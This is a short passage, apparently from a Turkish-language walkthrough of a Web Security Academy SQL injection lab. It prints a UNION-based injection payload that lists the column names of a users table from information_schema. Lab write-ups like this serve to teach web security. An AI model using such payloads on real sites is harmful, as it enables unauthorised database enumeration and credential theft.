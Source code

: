 ![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-23.png)

Bu kısımdan sonra da “users_nmvfut” için tablo kolon isimlerini öğrenmemiz gerekiyor. 

```html
mdisec' UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users_nmvfut' -- addf
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-24.png)
